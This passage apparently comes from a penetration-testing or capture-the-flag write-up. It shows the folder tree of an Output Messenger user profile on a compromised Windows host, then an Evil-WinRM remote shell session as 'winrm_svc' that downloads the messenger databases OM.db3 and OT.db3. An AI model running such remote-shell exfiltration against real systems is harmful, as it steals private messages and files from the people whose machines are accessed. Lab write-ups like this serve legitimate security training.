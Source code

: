 ```
    ³   ³   downarrow.png
    ³   ³   forward_icon_b_15.png
    ³   ³   forward_icon_w_15.png
    ³   ³   leave_today_16.png
    ³   ³   leave_tomorrow3_16.png
    ³   ³   load_20.gif
    ³   ³   Meeting.png
    ³   ³   message_notification.gif
    ³   ³   mobile2.png
    ³   ³   mobile_offline2.png
    ³   ³   network10_16.png
    ³   ³   network11_16.png
    ³   ³   network12_16.png
    ³   ³   network13_16.png
    ³   ³   network14_16.png
    ³   ³   network15_16.png
    ³   ³   network16_16.png
    ³   ³   network17_16.png
    ³   ³   network1_16.png
    ³   ³   network2_16_2.png
    ³   ³   network3_16.png
    ³   ³   network4_16.png
    ³   ³   network5_16.png
    ³   ³   network6_16.png
    ³   ³   network7_16.png
    ³   ³   network8_16.png
    ³   ³   network9_16.png
    ³   ³   plus_math_20.png
    ³   ³   plus_math_20_b.png
    ³   ³   poll_multi_tick.png
    ³   ³   poll_multi_tick_w.png
    ³   ³   poll_tick.png
    ³   ³   poll_tick_w.png
    ³   ³   rightarrow.png
    ³   ³   tickgallery.png
    ³   ³   trash_14.png
    ³   ³   trash_14_red.png
    ³   ³
    ³   ÃÄÄÄDrive
    ³   ÃÄÄÄProfile
    ³   ³       UP1_A_1.png
    ³   ³       UP9_WS_9.png
    ³   ³
    ³   ÀÄÄÄReceived Files
    ÀÄÄÄTheme

```

I’ll grab both files:

```
*Evil-WinRM* PS C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA> download OM.db3
                                        
Info: Downloading C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA\OM.db3 to OM.db3
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA> download OT.db3
                                        
Info: Downloading C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA\OT.db3 to OT.db3
                                        
Info: Download successful!

```
